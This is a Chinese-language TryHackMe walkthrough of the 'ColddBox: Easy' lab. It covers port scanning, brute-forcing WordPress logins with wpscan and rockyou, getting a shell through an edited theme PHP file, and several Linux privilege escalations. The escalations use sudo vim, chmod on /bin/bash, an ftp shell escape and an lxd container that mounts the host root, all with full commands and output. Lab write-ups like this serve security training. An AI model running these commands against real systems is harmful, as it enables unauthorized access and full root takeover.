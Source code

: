 ```yaml
---
sidebar_position: 31
tags: [Easy, Linux, Wordpress, 密码破解-弱密码, SUID, SUDO, lxd]
title: "ColddBox: Easy"
description: "ColddBox: Easy"
sidebar_label: "ColddBox: Easy"
slug: /tryhackme/31
---
```

import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

# ColddBox: Easy
## 端口扫描
```bash
root@ip-10-10-22-151:~# nmap -sT -p- --min-rate 1000 10.10.198.125

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-22 08:24 BST
Nmap scan report for ip-10-10-198-125.eu-west-1.compute.internal (10.10.198.125)
Host is up (0.0078s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4512/tcp open  unknown
MAC Address: 02:C0:D5:49:E6:9D (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.55 seconds
root@ip-10-10-22-151:~# nmap -sTCV -p 80,4512 --min-rate 1000 10.10.198.125

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-22 08:24 BST
Nmap scan report for ip-10-10-198-125.eu-west-1.compute.internal (10.10.198.125)
Host is up (0.00014s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (EdDSA)
MAC Address: 02:C0:D5:49:E6:9D (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.02 seconds
```

## 80 - HTTP
访问 80 站点, 我发现这一个 Wordpress, 开始进行目录扫描

![20240601184146](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184146.png)

访问 /hidden 页面, 我发现其中提到一些内容

![20240601184157](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184157.png)

所以我开始进行密码的爆破
```bash
┌──(jtz㉿JTZ)-[~/Desktop/Temp/thm/ColddBox_Easy]
└─$ wpscan  -U C0ldd,Hugo,Philip -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --url  http://10.10.6.29/ -t 20
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - C0ldd / 9876543210
^Cying Philip / gabriel1 Time: 00:03:06 <                                                     > (7302 / 43034400)  0.01%  ETA: ??:??:??
```
得到密码后,访问后台管理页面, 并修改模板中的 php 文件来获取 Shell

## 后渗透
### www-data

上传Shell  后我开始访问站点

![20240601184319](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184319.png)

### www-data —> root (第一种方式)
经过枚举, 发现 find 指令存在 [SUID](https://gtfobins.github.io/gtfobins/find/#suid) 特权

![20240601184346](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184346.png)

![20240601184405](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184405.png)

### www-data —> c0ldd  (第二种方式)
在网站的配置文件中发现了 c0ldd 的密码

![20240601184435](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184435.png)

尝试切换用户发现密码正确

![20240601184444](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184444.png)

### c0ldd —> root  (第二种方式)

![20240601184511](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184511.png)

在这里我们可以看到用户具有 SUOD 和 lxd 组,执行后发现

![20240601184521](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184521.png)

<Tabs>
  <TabItem value="vim" label="vim" default>
![20240601184605](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184605.png)

```bash
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```
![](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/sudo.gif)

  </TabItem>
  <TabItem value="chmod" label="chmod">
```bash
c0ldd@ColddBox-Easy:~$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1037528 jul 12  2019 /bin/bash
c0ldd@ColddBox-Easy:~$ LFILE=/bin/bash
c0ldd@ColddBox-Easy:~$ sudo /bin/chmod 6777 $LFILE
c0ldd@ColddBox-Easy:~$ ls -al /bin/bash
-rwsrwsrwx 1 root root 1037528 jul 12  2019 /bin/bash
c0ldd@ColddBox-Easy:~$ /bin/bash -p
bash-4.3# id
uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) egid=0(root) grupos=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(c0ldd)
bash-4.3#
```
  </TabItem>
  <TabItem value="ftp" label="ftp">
![20240601184836](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601184836.png)

```bash
c0ldd@ColddBox-Easy:~$ sudo /usr/bin/ftp
ftp> !/bin/sh
# id
uid=0(root) gid=0(root) grupos=0(root)
```
  </TabItem>
    <TabItem value="lxd" label="lxd 容器提权">
我们可以注意到用户是 lxd ，我们可以利用 lxd 进行提权

```bash
┌──(jtz㉿JTZ)-[~/Desktop/Temp/thm/ColddBox_Easy]
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 3.92 MiB/s, done.
Resolving deltas: 100% (15/15), done.

┌──(jtz㉿JTZ)-[~/Desktop/Temp/thm/ColddBox_Easy]
└─$ cd lxd-alpine-builder/

┌──(jtz㉿JTZ)-[~/Desktop/Temp/thm/ColddBox_Easy/lxd-alpine-builder]
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
┌──(jtz㉿JTZ)-[~/Desktop/Temp/thm/ColddBox_Easy/lxd-alpine-builder]
└─$ scp -P 4512 ./alpine-v3.13-x86_64-20210218_0139.tar.gz c0ldd@10.10.6.29:/home/c0ldd/alpine-v3.13-x86_64-20210218_0139.tar.gz
c0ldd@10.10.6.29's password:
alpine-v3.13-x86_64-20210218_0139.tar.gz                                                             100% 3183KB   1.6MB/s   00:01
```

在目标主机执行下列命令，将系统挂载到 容器 /mnt/root 下

```bash
c0ldd@ColddBox-Easy:~$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  user.txt
c0ldd@ColddBox-Easy:~$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
c0ldd@ColddBox-Easy:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPCIÓN          |  ARQ   | TAMAÑO |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB  | Feb 17, 2023 at 8:14am (UTC) |
+---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
c0ldd@ColddBox-Easy:~$ lxc init myimage ignite -c security.privileged=true
Creando ignite
c0ldd@ColddBox-Easy:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
c0ldd@ColddBox-Easy:~$ lxc start ignite
c0ldd@ColddBox-Easy:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ #
```
  </TabItem>
</Tabs>
